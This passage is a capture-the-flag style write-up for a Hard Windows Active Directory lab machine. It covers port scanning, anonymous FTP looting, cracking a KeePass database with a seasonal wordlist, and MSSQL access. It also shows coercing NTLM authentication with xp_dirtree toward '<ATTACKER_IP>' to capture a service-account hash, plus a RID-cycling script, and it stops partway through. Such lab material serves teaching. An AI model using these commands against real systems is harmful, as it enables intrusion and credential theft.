





# Redelegate — WriteUp

In this Windows Active Directory machine rated **Hard**, we compromise a Domain Controller by chaining several misconfigurations. Starting from anonymous FTP access, we extract a KeePass database, crack its master password, find domain credentials, and abuse a `ForceChangePassword` privilege to pivot users. From there, we leverage `SeEnableDelegationPrivilege` to configure **Resource-Based Constrained Delegation (RBCD)** on an existing machine account, ultimately performing an S4U2Proxy attack to impersonate the Domain Controller itself and dump the Administrator hash. You will learn how to:

- Enumerate open services on a Windows Domain Controller with `nmap`
- Access anonymous FTP and download sensitive files
- Crack a KeePass `.kdbx` master password with `keepass2john` + `john`
- Extract credentials from a KeePass database with `keepassxc-cli`
- Enumerate AD users via authenticated MSSQL with `netexec`
- Perform credential spraying over SMB
- Abuse `ForceChangePassword` rights via BloodHound + `bloodyAD`
- Establish a WinRM shell with `evil-winrm`
- Configure Constrained Delegation on an existing machine account (no MAQ needed)
- Execute an S4U2Proxy attack to impersonate the DC
- Perform DCSync and pass-the-hash for full domain compromise

🧰 Tools used: `nmap`, `ftp`, `keepass2john`, `john`, `keepassxc-cli`, `netexec`, `bloodyAD`, `evil-winrm`, `getTGT.py`, `getST.py`, `secretsdump.py`.

Let's get started.

---

## Port Scanning

We start with a full TCP SYN scan across all 65535 ports. Using `-Pn` skips host discovery (ICMP is often blocked), `-sS` sends raw SYN packets (faster and stealthier than a full connect), and `-n` disables DNS resolution to avoid delays.


```bash
❯ sudo nmap --open -Pn -p- -sS -n -vvv 10.129.234.50

PORT      STATE SERVICE          REASON
21/tcp    open  ftp              syn-ack ttl 127
53/tcp    open  domain           syn-ack ttl 127
80/tcp    open  http             syn-ack ttl 127
88/tcp    open  kerberos-sec     syn-ack ttl 127
135/tcp   open  msrpc            syn-ack ttl 127
139/tcp   open  netbios-ssn      syn-ack ttl 127
389/tcp   open  ldap             syn-ack ttl 127
445/tcp   open  microsoft-ds     syn-ack ttl 127
464/tcp   open  kpasswd5         syn-ack ttl 127
593/tcp   open  http-rpc-epmap   syn-ack ttl 127
636/tcp   open  ldapssl          syn-ack ttl 127
1433/tcp  open  ms-sql-s         syn-ack ttl 127
3268/tcp  open  globalcatLDAP    syn-ack ttl 127
3269/tcp  open  globalcatLDAPssl syn-ack ttl 127
3389/tcp  open  ms-wbt-server    syn-ack ttl 127
5985/tcp  open  wsman            syn-ack ttl 127
9389/tcp  open  adws             syn-ack ttl 127
47001/tcp open  winrm            syn-ack ttl 127
49664/tcp open  unknown          syn-ack ttl 127
49665/tcp open  unknown          syn-ack ttl 127
49666/tcp open  unknown          syn-ack ttl 127
49667/tcp open  unknown          syn-ack ttl 127
49669/tcp open  unknown          syn-ack ttl 127
49932/tcp open  unknown          syn-ack ttl 127
55051/tcp open  unknown          syn-ack ttl 127
62931/tcp open  unknown          syn-ack ttl 127
62940/tcp open  unknown          syn-ack ttl 127
62941/tcp open  unknown          syn-ack ttl 127
62942/tcp open  unknown          syn-ack ttl 127
62948/tcp open  unknown          syn-ack ttl 127
```

The port profile is unmistakably a **Windows Domain Controller**: Kerberos (88), LDAP (389/636), Global Catalog (3268/3269), RDP (3389), WinRM (5985), ADWS (9389), and notably **FTP (21)** and **MSSQL (1433)** — both less common on DCs and worth investigating immediately.

---

### Service Enumeration

With the open ports identified, we run a targeted scan with `-sV` (version detection) and `-sC` (default scripts) to fingerprint services and grab banners.

```bash
❯ nmap -sVC -p21,53,80,88,135,139,389,445,464,593,636,1433,3268,3269,3389,5985,9389,47001,49664,49665,49666,49667,49669,49932,55051,62931,62940,62941,62942,62948 10.129.234.50

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 10-20-24  01:11AM                  434 CyberAudit.txt
| 10-20-24  05:14AM                 2622 Shared.kdbx
|_10-20-24  01:26AM                  580 TrainingAgenda.txt
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-04-17 18:03:42Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: redelegate.vl, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info:
|   10.129.234.50:1433:
|     Target_Name: REDELEGATE
|     NetBIOS_Domain_Name: REDELEGATE
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: redelegate.vl
|     DNS_Computer_Name: dc.redelegate.vl
|     DNS_Tree_Name: redelegate.vl
|_    Product_Version: 10.0.20348
|_ssl-date: 2026-04-17T18:04:50+00:00; +53s from scanner time.
| ms-sql-info:
|   10.129.234.50:1433:
|     Version:
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-04-17T18:00:56
|_Not valid after:  2056-04-17T18:00:56
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: redelegate.vl, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: REDELEGATE
|   NetBIOS_Domain_Name: REDELEGATE
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: redelegate.vl
|   DNS_Computer_Name: dc.redelegate.vl
|   DNS_Tree_Name: redelegate.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-04-17T18:04:40+00:00
|_ssl-date: 2026-04-17T18:04:50+00:00; +53s from scanner time.
| ssl-cert: Subject: commonName=dc.redelegate.vl
| Not valid before: 2026-04-16T17:58:21
|_Not valid after:  2026-10-16T17:58:21
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49932/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info:
|   10.129.234.50:49932:
|     Target_Name: REDELEGATE
|     NetBIOS_Domain_Name: REDELEGATE
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: redelegate.vl
|     DNS_Computer_Name: dc.redelegate.vl
|     DNS_Tree_Name: redelegate.vl
|_    Product_Version: 10.0.20348
| ms-sql-info:
|   10.129.234.50:49932:
|     Version:
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 49932
|_ssl-date: 2026-04-17T18:04:50+00:00; +53s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-04-17T18:00:56
|_Not valid after:  2056-04-17T18:00:56
55051/tcp open  msrpc         Microsoft Windows RPC
62931/tcp open  msrpc         Microsoft Windows RPC
62940/tcp open  msrpc         Microsoft Windows RPC
62941/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
62942/tcp open  msrpc         Microsoft Windows RPC
62948/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 52s, deviation: 0s, median: 52s
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled and required
| smb2-time:
|   date: 2026-04-17T18:04:40
|_  start_date: N/A
```

Two key findings:
- **FTP allows anonymous login** and already lists three files, including a `Shared.kdbx`  KeePass password database.
- **MSSQL** is running on a DC, which is unusual and suggests a service account may be configured there.

The domain is `redelegate.vl` and the machine is `dc.redelegate.vl`.

---

### /etc/hosts

We add both the domain and the DC hostname to `/etc/hosts` so tools that rely on DNS resolution (Kerberos, SMB, WinRM) work correctly.

`redelegate.vl` `dc.redelegate.vl` > `/etc/hosts`

---

## Anonymous FTP — Extracting Sensitive Files

FTP allows anonymous authentication, which means no credentials are needed. We connect, switch to binary mode to avoid file corruption on non-text files (critical for `.kdbx`), disable the interactive prompt, and grab everything at once.

```bash
❯ ftp anonymous@10.129.234.50
Connected to 10.129.234.50.
220 Microsoft FTP Service
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> binary
200 Type set to I.
ftp> prompt off
Interactive mode off.
ftp> mget *
local: CyberAudit.txt remote: CyberAudit.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
434 bytes received in 0.2042 seconds (2.0756 kbytes/s)
local: Shared.kdbx remote: Shared.kdbx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2622 bytes received in 0.1813 seconds (14.1251 kbytes/s)
local: TrainingAgenda.txt remote: TrainingAgenda.txt
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
580 bytes received in 0.1808 seconds (3.1333 kbytes/s)
ftp> quit
221 Goodbye.
```

We now have three files. Let's look at the text ones first.

```bash
❯ command cat CyberAudit.txt
OCTOBER 2024 AUDIT FINDINGS

[!] CyberSecurity Audit findings:

1) Weak User Passwords
2) Excessive Privilege assigned to users
3) Unused Active Directory objects
4) Dangerous Active Directory ACLs

[*] Remediation steps:

1) Prompt users to change their passwords: DONE
2) Check privileges for all users and remove high privileges: DONE
3) Remove unused objects in the domain: IN PROGRESS
4) Recheck ACLs: IN PROGRESS
❯ command cat TrainingAgenda.txt
EMPLOYEE CYBER AWARENESS TRAINING AGENDA (OCTOBER 2024)

Friday 4th October  | 14.30 - 16.30 - 53 attendees
"Don't take the bait" - How to better understand phishing emails and what to do when you see one


Friday 11th October | 15.30 - 17.30 - 61 attendees
"Social Media and their dangers" - What happens to what you post online?


Friday 18th October | 11.30 - 13.30 - 7 attendees
"Weak Passwords" - Why "SeasonYear!" is not a good password


Friday 25th October | 9.30 - 12.30 - 29 attendees
"What now?" - Consequences of a cyber attack and how to mitigate them%                                                    
```

Two things jump out:

1. **The audit says passwords were rotated** ("Prompt users to change their passwords: DONE") — so there was a moment in time where a new shared password was set across accounts.
2. **The training session from October 18th** explicitly calls out the pattern `SeasonYear!` as an example of a weak password — which ironically tells us exactly what format to target. The fact that only 7 people attended that session is also telling.

Now we look at the dates. The training agenda is from **October 2024**, which gives us our primary year. But the FTP files were created on `10-20-24` and the audit says the password rotation was already completed — meaning the new passwords were likely set around that same period.

We also confirm the file type before attempting to crack it:

```bash
❯ file Shared.kdbx
Shared.kdbx: Keepass password database 2.x KDBX
```

With the `SeasonYear!` pattern in mind and October 2024 as our anchor date, we build a targeted `passwords.txt`. We include seasonal variations for both 2024 and nearby years (2019 as a secondary candidate, in case the password predates the recent rotation), plus `October` itself since the audit is explicitly dated that month:

```bash
❯ cat passwords.txt
Autumn2024!
Fall2024!
October2024!
Spring2024!
Summer2024!
Winter2024!
Autumn2019!
Fall2019!
October2019!
Spring2019!
Summer2019!
Winter2019!
Autumn2013!
Fall2013!
October2013!
Spring2013!
Summer2013!
Winter2013!
SeasonYear!
```
This is a small but highly targeted wordlist — 19 entries. That's intentional: the training document handed us the exact pattern, so a broad wordlist would just be noise.

---

### Extracting the Hash and cracking with Hashcat

`keepass2john` reads the `.kdbx` file and outputs a hash that represents the KDF (Key Derivation Function) parameters plus the encrypted database blob. This hash is what we crack offline at no point does the database itself need to be "open".
We use mode `-m 13400` (KeePass KDBX v2/v3) and feed it our custom wordlist:

```bash
❯ keepass2john Shared.kdbx > hash_to_crack.txt
❯ hashcat -m 13400 hash_to_crack.txt passwords.txt
hashcat (v7.1.2) starting

$keepass$*2*600000*0*ce7395f413946b0cd27950<REDACTED_HASH>:<REDACTED_PASSWD>

<SNIP>
```
---

### Dumping the Database Contents

Before dumping everything, we first list the top-level groups to understand what's inside. This mirrors what a real attacker would do enumerate before extracting:

```bash
❯ keepassxc-cli ls Shared.kdbx
Enter password to unlock Shared.kdbx:
KdbxXmlReader::readDatabase: found 1 invalid group reference(s)
IT/
HelpDesk/
Finance/
```

Three departments. We recurse into all of them with `-R /` to see every entry without opening a GUI:

```bash
❯ echo <REDACTED_PASSWD> | keepassxc-cli ls -R Shared.kdbx /
Enter password to unlock Shared.kdbx:
KdbxXmlReader::readDatabase: found 1 invalid group reference(s)
IT/
  FTP
  FS01 Admin
  WEB01
  SQL Guest Access
HelpDesk/
  KeyFob Combination
Finance/
  Timesheet Manager
  Payrol App
```

We export the full database in CSV format to get every username and password at once:

```bash
❯ echo '<REDACTED_PASSWD>' | keepassxc-cli export -f csv Shared.kdbx
Enter password to unlock Shared.kdbx:
KdbxXmlReader::readDatabase: found 1 invalid group reference(s)
"Group","Title","Username","Password","URL","Notes","TOTP","Icon","Last Modified","Created"
"Shared/IT","FTP","FTPUser","<REDACTED_PASSWD>","","Deprecated","","0","2024-10-20T07:56:58Z","2024-10-20T07:56:20Z"
"Shared/IT","FS01 Admin","Administrator","<REDACTED_PASSWD>","","","","0","2024-10-20T07:57:21Z","2024-10-20T07:57:02Z"
"Shared/IT","WEB01","WordPress Panel","<REDACTED_PASSWD>","","","","0","2024-10-20T08:00:25Z","2024-10-20T07:57:24Z"
"Shared/IT","SQL Guest Access","SQLGuest","<REDACTED_PASSWD>","","","","0","2024-10-20T08:27:09Z","2024-10-20T08:26:48Z"
"Shared/HelpDesk","KeyFob Combination","","<REDACTED_PASSWD>","","","","0","2024-10-20T12:12:32Z","2024-10-20T12:12:09Z"
"Shared/Finance","Timesheet Manager","Timesheet","<REDACTED_PASSWD>","","","","0","2024-10-20T12:14:18Z","2024-10-20T12:13:30Z"
"Shared/Finance","Payrol App","Payroll","<REDACTED_PASSWD>","","","","0","2024-10-20T12:14:11Z","2024-10-20T12:13:50Z"
```

---

## MSSQL Enumeration — Accessing the Database

We now have valid SQL credentials from the KeePass dump: `SQLGuest:<REDACTED_PASSWD>`. Before diving into the database, we confirm the login actually works against the target. Using `--local-auth` tells `netexec` to authenticate against the local SQL instance rather than the domain, since this is a SQL Server account, not a Windows domain account.
```bash
❯ nxc mssql 10.129.234.50 -u 'SQLGuest' -p '<REDACTED_PASSWD>' --local-auth
MSSQL       10.129.234.50   1433   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:redelegate.vl) (EncryptionReq:False)
MSSQL       10.129.234.50   1433   DC               [+] DC\SQLGuest:<REDACTED_PASSWD>
```
Authentication succeeds. We now have an interactive SQL session to explore.

---

### Exploring the Database
`mssqlclient.py` from Impacket gives us an interactive SQL shell. We connect using the `DC\` prefix since this is a local SQL account on the `DC` instance:
```bash
❯ mssqlclient.py DC/SQLGuest:<REDACTED_PASSWD>@10.129.234.50
Impacket v0.13.0 - Copyright Fortra, LLC and its affiliated companies

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(DC\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(DC\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2019 RTM (15.0.2000)
[!] Press help for extra shell commands
SQL (SQLGuest  guest@master)> show databases;
ERROR(DC\SQLEXPRESS): Line 1: Could not find stored procedure 'show'.
SQL (SQLGuest  guest@master)> SELECT name FROM sys.databases;
name
------
master
tempdb
model
msdb
SQL (SQLGuest  guest@master)>
```
Only the four default system databases are visible to this guest account — no custom application databases. This user has very limited read permissions, so the value here isn't in the database contents but in what we can do through the SQL engine itself.

---

### Checking for Linked Servers

Linked servers are a SQL Server feature that allows one instance to execute queries against another remote SQL Server. If a linked server exists and runs under a privileged account, it can be abused to pivot or elevate privileges. We check with `sp_linkedservers`:
```bash
SQL (SQLGuest  guest@msdb)> EXEC sp_linkedservers;
SRV_NAME                     SRV_PROVIDERNAME   SRV_PRODUCT   SRV_DATASOURCE               SRV_PROVIDERSTRING   SRV_LOCATION   SRV_CAT
--------------------------   ----------------   -----------   --------------------------   ------------------   ------------   -------
WIN-Q13O908QBPG\SQLEXPRESS   SQLNCLI            SQL Server    WIN-Q13O908QBPG\SQLEXPRESS   NULL                 NULL           NULL
```
The only linked server is the instance itself. No lateral movement available here. Dead end on that front.

---

### Forcing NTLM Authentication — Capturing the sql_svc Hash

Even without `xp_cmdshell`, SQL Server can be forced to make outbound network requests. `xp_dirtree` is a stored procedure that lists directory contents from a UNC path — and if we point it to our own machine, SQL Server will attempt to authenticate via NTLM, leaking the hash of the service account running the SQL process.

We first start `Responder` on our interface (`tun0` in this case) to intercept incoming NTLM authentication attempts.
Then from our SQL session, we trigger the outbound connection.
```bash
SQL (SQLGuest  guest@msdb)> EXEC master..xp_dirtree '\\<ATTACKER_IP>\share', 1, 1;
subdirectory   depth   file
------------   -----   ----
SQL (SQLGuest  guest@msdb)>
```

The query returns empty, but Responder catches the authentication attempt in the background:
```bash
❯ sudo responder -I tun0 -v

[!] Error starting TCP server on port 53, check permissions or other servers running.
[SMB] NTLMv2-SSP Client   : 10.129.234.50
[SMB] NTLMv2-SSP Username : REDELEGATE\sql_svc
[SMB] NTLMv2-SSP Hash     : sql_svc::REDELEGATE:7add7052fef16ebb:A5B0F0D28C3F0A009935D69501E76DB0:0101000000000000809BF49E28D1DC01A68490639E0350CA00000000020008004C0035005800480001001E00570049004E002D005700340049004900460058005A00490039004600370004003400570049004E002D005700340049004900460058005A0049003900460037002E004C003500580048002E004C004F00430041004C00030014004C003500580048002E004C004F00430041004C00050014004C003500580048002E004C004F00430041004C0007000800809BF49E28D1DC0106000400020000000800300030000000000000000000000000300000DB26ECC5D2D79E034E52F403DAFD5101FCC94D00B443B3DC0575340507735EE20A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E003200340032000000000000000000
```
We capture an **NTLMv2 hash** for `REDELEGATE\sql_svc` — the service account running SQL Server. However, after attempting to crack it offline against `rockyou.txt`, the hash does not crack. This is a dead end for direct credential reuse, but it confirms the service account identity. We pivot to a different approach for user enumeration.

---

## AD User Enumeration via MSSQL — RID Cycling

Even as a guest, SQL Server lets us resolve Security Identifiers (SIDs) to names using built-in functions like `SUSER_SNAME()`. Every domain object (user, group, computer) has a SID composed of a fixed domain portion plus a variable RID (Relative Identifier). By iterating RIDs from 500 to ~2000, we can enumerate all domain principals without needing LDAP access.

We first manually probe a few RIDs to confirm the technique works and to identify the domain SID base:
```bash
SQL (SQLGuest  guest@master)> SELECT SUSER_SNAME(0x0105000000000005150000001d9a3e416536d3b0c05fc3ef51040000);

----
NULL
SQL (SQLGuest  guest@master)> SELECT SUSER_SID('REDELEGATE\Administrator');

-----------------------------------------------------------
b'010500000000000515000000a185deefb22433798d8e847af4010000'
SQL (SQLGuest  guest@master)> SELECT SUSER_SNAME(0x01050000000000051500000000000000000000000000000000000200);

----
NULL
SQL (SQLGuest  guest@master)> SELECT sys.fn_varbintohexstr(SUSER_SID('REDELEGATE\Domain Admins'));

----------------------------------------------------------
0x010500000000000515000000a185deefb22433798d8e847a00020000
SQL (SQLGuest  guest@master)> SELECT SUSER_SNAME(0x010500000000000515000000a185deefb22433798d8e847af4010000);

-----------------------------
WIN-Q13O908QBPG\Administrator
SQL (SQLGuest  guest@master)> SELECT SUSER_SNAME(0x010500000000000515000000a185deefb22433798d8e847ae8030000);

------------------------------------------------------
REDELEGATE\SQLServer2005SQLBrowserUser$WIN-Q13O908QBPG
SQL (SQLGuest  guest@master)> SELECT SUSER_SNAME(0x010500000000000515000000a185deefb22433798d8e847ae9030000);

----
NULL
SQL (SQLGuest  guest@master)> SELECT SUSER_SNAME(0x010500000000000515000000a185deefb22433798d8e847aea030000);

--------------
REDELEGATE\DC$
SQL (SQLGuest  guest@master)> SELECT SUSER_SNAME(0x010500000000000515000000a185deefb22433798d8e847aeb030000);

----
NULL
SQL (SQLGuest  guest@master)> SELECT SUSER_SNAME(0x010500000000000515000000a185deefb22433798d8e847aec030000);

----
NULL
```

From the Administrator SID response we extract the domain base: `a185deefb22433798d8e847a`. With this, we automate the full RID walk using a Python script that builds each SID dynamically, queries the SQL instance, and prints any non-null result:
```bash
❯ command cat users_mssql.py
# users_mssql.py
from impacket.tds import MSSQL
import struct
import socket

host = '10.129.234.50'
port = 1433
user = 'SQLGuest'
password = '<REDACTED_PASSWD>'
base_sid = 'a185deefb22433798d8e847a'

ms = MSSQL(host, port)
ms.connect()
ms.login(None, user, password, None, None, False)

for rid in range(500, 2000):
    rid_bytes = struct.pack('<I', rid).hex()
    sid_hex = f'0x010500000000000515000000{base_sid}{rid_bytes}'
    query = f"SELECT SUSER_SNAME({sid_hex})"
    ms.sql_query(query)
    rows = ms.rows
    if rows:
        name = rows[0].get('', '')
        if name and name != 'NULL':
            print(f"RID {rid}: {name}")

ms.disconnect()
```

```bash
❯ python3 users_mssql.py
RID 500: WIN-Q13O908QBPG\Administrator
RID 501: REDELEGATE\Guest
RID 502: REDELEGATE\krbtgt
RID 512: REDELEGATE\Domain Admins
RID 513: REDELEGATE\Domain Users
RID 514: REDELEGATE\Domain Guests
RID 515: REDELEGATE\Domain Computers
RID 516: REDELEGATE\Domain Controllers
RID 517: REDELEGATE\Cert Publishers
RID 518: REDELEGATE\Schema Admins
RID 519: REDELEGATE\Enterprise Admins
RID 520: REDELEGATE\Group Policy Creator Owners
RID 521: REDELEGATE\Read-only Domain Controllers
RID 522: REDELEGATE\Cloneable Domain Controllers
RID 525: REDELEGATE\Protected Users
RID 526: REDELEGATE\Key Admins
RID 527: REDELEGATE\Enterprise Key Admins
RID 553: REDELEGATE\RAS and IAS Servers
RID 571: REDELEGATE\Allowed RODC Password Replication Group
RID 572: REDELEGATE\Denied RODC Password Replication Group
RID 1000: REDELEGATE\SQLServer2005SQLBrowserUser$WIN-Q13O908QBPG
RID 1002: REDELEGATE\DC$
RID 1103: REDELEGATE\FS01$
RID 1104: REDELEGATE\Christine.Flanders
RID 1105: REDELEGATE\Marie.Curie
RID 1106: REDELEGATE\Helen.Frost
RID 1107: REDELEGATE\Michael.Pontiac
RID 1108: REDELEGATE\Mallory.Roberts
RID 1109: REDELEGATE\James.Dinkleberg
RID 1112: REDELEGATE\Helpdesk
RID 1113: REDELEGATE\IT
RID 1114: REDELEGATE\Finance
RID 1115: REDELEGATE\DnsAdmins
RID 1116: REDELEGATE\DnsUpdateProxy
RID 1117: REDELEGATE\Ryan.Cooper
RID 1119: REDELEGATE\sql_svc
```

We get a complete picture of the domain: users, groups, and computer accounts including `FS01$`, which will become relevant later.

Note that RID 500 resolves to `WIN-Q13O908QBPG\Administrator` — a local account from the machine's previous hostname before it was promoted to a DC. This is a leftover artifact, not a domain admin account.

### Alternative: netexec --rid-brute

`netexec` can do the same thing in one line, producing cleaner output without writing any custom code. Both approaches yield identical results — the Python script is useful when you need more control or want to integrate results into a pipeline:
```bash
